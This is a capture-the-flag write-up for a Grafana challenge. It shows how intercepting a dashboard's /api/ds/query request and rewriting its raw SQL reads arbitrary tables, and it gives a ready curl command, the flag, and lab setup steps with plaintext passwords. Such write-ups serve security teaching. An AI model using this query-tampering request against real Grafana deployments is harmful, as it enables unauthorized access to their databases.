

# Grafana Writeup
This Grafana problem was actually copied from a previous CTF I was in, but loved it so much I wanted to duplicate it on our own. Grafana has a cool little "feature" where SQL queries are actually sent in plaintext from the browser to the back-end, executed, and the results returned. The dashboard loads the queries in the browser and sends them, but if you catch the outgoing request, you can modify the query to be whatever you want, effectively giving you full access over the database. 

Users were given anonymous access to the Grafana access, but it still has this vulnerability (that is just a part of the Grafana design for some reason). When you load the page, the dashboard is broken, but the SQL query is still sent back and can be seen in the Network tab. If you capture the request and insert the payload `SELECT * FROM flag`, it will return the flag.



An example command using cURL is below:

```bash
curl http://localhost:40010/api/ds/query -X POST --header 'Content-Type: application/json' -d '{"queries":[{"refId":"A","datasource":{"uid":"ctAhPmynz","type":"postgres"},"rawSql":"select * from flag;","format":"table","datasourceId":1,"intervalMs":30000,"maxDataPoints":716}],"range":{"from":"2022-03-25T01:09:57.542Z","to":"2022-03-25T07:09:57.542Z","raw":{"from":"now-6h","to":"now"}},"from":"1648170597542","to":"1648192197542"}'
```

**Flag** - `byuctf{qu3ry_1nj3ct10n_1s_4_"f34tur3"_1n_gr4f4n4}`

## Hosting
1. Spin up docker images
    - `sudo docker-compose rm -f && sudo docker-compose up -d`
2. Populate postgresql db
    - `psql -U postgres -h localhost < postgresql_build/sportsdb.sql` with password `tuiuiqxcugomqzxftelsmpfvbsjbkjre`
3. Setup Grafana
    - Sign in with username `admin` and password `miloxgxhcamdtsgmkjuaoqegwuywlyjq`
    - Add postgresql datasource
        - Host - `172.x.x.x:5432`
        - Database - `postgres`
        - User - `grafana_user`
        - Password - `nwfnqhzujqfagusdaahrdwlthhlwhwkf`
        - TLS/SSL Mode - `disable`
    - Add new dashboard "Broken Sports Dashboard"
        - Add new panel with raw query `select affiliation_type, count(affiliation_type) from affiliations group by affiliation_type`, format as table